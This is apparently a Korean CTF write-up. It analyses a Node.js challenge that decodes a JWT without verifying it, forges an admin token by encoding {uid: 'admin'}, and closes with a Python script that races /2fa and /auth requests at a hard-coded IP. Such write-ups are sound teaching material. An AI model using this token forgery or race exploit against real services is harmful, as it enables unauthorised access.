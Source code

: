 ```js
    } catch (a) {
        res.json({ message: "Internal Error" });
    }
});

app.post("/data", (req, res) => {
    res.status(req.body.auth_key ? 200 : 400).send(req.body.auth_key ? 'Success' : 'Failed');
});

app.listen(1234);
```

먼저 어드민 계정을 얻어야하는데
```js
let payload = urlsafe(b64Lib.encode(strEncoder.encode(JSON.stringify({ uid: userId }))));
return `${headerData}.${payload}.${urlsafe(b64Lib.encode(new Uint8Array(sig)))}`;

...

const read_JWT = async (token) => {
    const decoder = new TextDecoder();
    let payload = token.split(".")[1];
    return JSON.parse(decoder.decode(b64Lib.decode(decodeurlsafe(payload))).replaceAll('\x00', ''));
};
```

`read_JWT()` 함수는 인자로 token 하나만을 받지만 위 코드에서는 두번째 인자에 PublicKey를 보낸다.
즉, 애초에 PublicKey 검증 자체를 안한다는 것이다 (검증한다고 하더라도 PublicKey는 코드에 공개되어있다)

`{ uid: "admin" }` 넣고 base64 인코딩해서 어드민 토큰을 생성할 수 있다.

나머지 코드를 분석해보자.

`/auth`에서는 해시 값과 내 입력이 동일하다면 플래그를 준다.
하지만 저 해시값을 예측하는 건 불가능하다.

```js
const storedData = await fs.promises.readFile(temporaryFileName, "utf-8");
```
위 코드를 봤을 때 `await fs.promises`를 사용해파일을 비동기적으로 읽는다는 걸 알 수 있고 Race Condition이 가능해진다는걸 알 수 있다.

```python
import threading
import requests

def send_2fa():
    requests.post("http://15.165.38.117:1234/2fa", cookies={"check": "test.eyJ1aWQiOiI4N2M4NjllNzI5NTY2M2YyYzAyNTFmYzMxMTUwZDBlMyJ9"})

def read_auth():
    response = requests.post("http://15.165.38.117:1234/auth", cookies={"check": "test.eyJ1aWQiOiI4N2M4NjllNzI5NTY2M2YyYzAyNTFmYzMxMTUwZDBlMyJ9"}, json={"data": ""})
    print(response.text)

threading.Thread(target=send_2fa).start()
threading.Thread(target=read_auth).start()
```
